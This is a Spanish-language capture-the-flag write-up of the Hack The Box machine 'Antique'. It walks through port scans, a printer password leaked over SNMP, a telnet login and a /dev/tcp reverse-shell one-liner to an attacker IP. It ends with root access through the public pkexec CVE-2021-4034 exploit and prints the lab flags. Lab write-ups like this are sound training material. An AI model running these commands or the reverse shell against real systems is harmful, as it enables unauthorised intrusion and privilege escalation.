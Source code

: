 ```yaml
---
layout: single
title: Antique - Hack The Box
excerpt: "Antique is an easy Linux machine featuring a network printer disclosing credentials through SNMP string which allows logging into telnet service. Foothold can be obtained by exploiting a feature in printer. CUPS administration service running locally. This service can be exploited further to >
date: 2024-04-02
classes: wide
header:
  teaser: /assets/images/htb-antique/antique.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - Pkexec
  - UDP
  - SNMP
---
```


![](/assets/images/htb-antique/antique.png)

Antique is an easy Linux machine featuring a network printer disclosing credentials through SNMP string which allows logging into telnet service. Foothold can be obtained by exploiting a feature in printer. CUPS administration service running locally. This service can be exploited further to gain root >

## Portscan

```
 Nmap 7.94SVN scan initiated Tue Apr  2 17:03:02 2024 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -oG allports 10.10.11.107
 Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.107 ()   Status: Up
Host: 10.10.11.107 ()   Ports: 23/open/tcp//telnet///   Ignored State: closed (65534)
 Nmap done at Tue Apr  2 17:03:14 2024 -- 1 IP address (1 host up) scanned in 12.38 seconds
```
Y con esto analizamos los puertos abiertos:
```
nmap -sCV -p23 -Pn 10.10.11.107 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-02 17:07 CEST
Nmap scan report for 10.10.11.107
Host is up (0.041s latency).

PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServer>
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
1 service unrecognized despite returning data.

```
Vamos a analizar tambien los puertos UDP:
```
sudo nmap -sU --top-ports 100 --open -T5 -v -n 10.10.11.107                              1 ⨯
[sudo] contraseña para kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-02 17:21 CEST
Initiating Ping Scan at 17:21
Scanning 10.10.11.107 [4 ports]
Completed Ping Scan at 17:21, 0.06s elapsed (1 total hosts)
Initiating UDP Scan at 17:21
Scanning 10.10.11.107 [100 ports]
Warning: 10.10.11.107 giving up on port because retransmission cap hit (2).
Discovered open port 161/udp on 10.10.11.107
Completed UDP Scan at 17:21, 9.96s elapsed (100 total ports)
Nmap scan report for 10.10.11.107
Host is up (0.11s latency).
Not shown: 86 open|filtered udp ports (no-response), 13 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.15 seconds
           Raw packets sent: 369 (22.540KB) | Rcvd: 17 (1.327KB)
```
## Intrusión SNMP


Vemos que el puerto abierto tiene un servicio snmp, asi que vamos a investigarlo:
```
snmpwalk -c public -v2c 10.10.11.107 1
iso.3.6.1.2.1 = STRING: "HTB Printer"
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
iso.3.6.1.4.1.11.2.3.9.1.2.1.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
```
Vemos que esta en hexadecimal y vamos a pasarlo de un modo que sea legible:
```
echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xargs | xxd -ps -r
P@ssw0rd@123!!123�q��"2Rbs3CSs��$4�Eu�WGW�(8i   IY�aA�"1&1A5
```
## Entramos con telnet en el puerto 443

Lo ponemos:
```
telnet 10.10.11.107 23
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect


Password: P@ssw0rd@123!!123�q��"2Rbs3CSs��$4�Eu�WGW�(8i
```
Vemos que se puede ejecutar comandos con exec asi que vamos a pasarnos una bash:
```
exec bash -c "bash -i >& /dev/tcp/10.10.16.14/443 0>& 1"
```

Ya podemos sacar la flag de usuario:
```
lp@antique:~$ cat user.txt
cat user.txt
15223601059755aab2544f81cdc59707
```
## Escalada de privilegios

Vamos a ver si encontramos la debilidad pkexec, que se puede explotar
```
lp@antique:~$ which pkexec
/usr/bin/pkexec
```

Desde nuestra terminal, vamos a clonarnos este repositorio https://github.com/berdav/CVE-2021-4034 que nos va a escalar el privilegio mediante pkexec, la comprimimos en .tar.gz (Ya que zip no esta en la maquina víctima).Desde el equipo de la víctima, obtenemos el comprimido de nuestro equipo(wget http:>
```
lp@antique:/tmp/CVE-2021-4034$ ./cve-2021-4034
# whoami
root
# bash
root@antique:/tmp/CVE-2021-4034# cd/root
bash: cd/root: No such file or directory
root@antique:/tmp/CVE-2021-4034# cd /root
root@antique:/root# ls
config.py  root.txt  snap  snmp-server.py
root@antique:/root# cat root.txt
4202c54a001f14e922c8d8ae918b8ac0
```
